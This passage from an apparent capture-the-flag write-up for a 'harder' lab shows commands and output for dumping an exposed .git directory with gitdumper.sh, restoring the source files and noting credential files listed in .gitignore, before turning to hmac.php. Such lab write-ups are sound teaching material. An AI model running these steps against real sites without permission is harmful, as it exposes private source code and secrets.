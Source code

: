 In order to dump that .git directory to our local system, this [tool](https://github.com/internetwache/GitTools.git) can be used! Once we have a .git directory we can use git commands to look for whatever we have in there.
```shell
$ ./gitdumper.sh pwd.harder.local/.git/ ~/CTF/thm/harder/git
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /home/cardinal/CTF/thm/harder/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
...
```

and we get the files using,
```shell
$ git checkout .
Updated 4 paths from the index
$ ls -la
total 48
drwxrwxr-x 3 cardinal cardinal  4096 Aug 17 02:53 .
drwxrwxr-x 3 cardinal cardinal  4096 Aug 17 02:46 ..
-rw-rw-r-- 1 cardinal cardinal 23820 Aug 17 02:53 auth.php
drwxrwxr-x 6 cardinal cardinal  4096 Aug 17 02:53 .git
-rw-rw-r-- 1 cardinal cardinal    27 Aug 17 02:53 .gitignore
-rw-rw-r-- 1 cardinal cardinal   431 Aug 17 02:53 hmac.php
-rw-rw-r-- 1 cardinal cardinal   608 Aug 17 02:53 index.php
```

We have a few interesting files now, with us...let's start with `gitignore` file.
```shell
$ cat .gitignore
credentials.php
secret.php
```
And these look so interesting! Let's keep these aside for a while and let's look at the source code of the files we have!

`auth.php` - has some basic cookie setting and stuff...nothing interesting!
`index.php` - nothing interesting either, but
`hmac.php` - is what I found out to be most interesting.
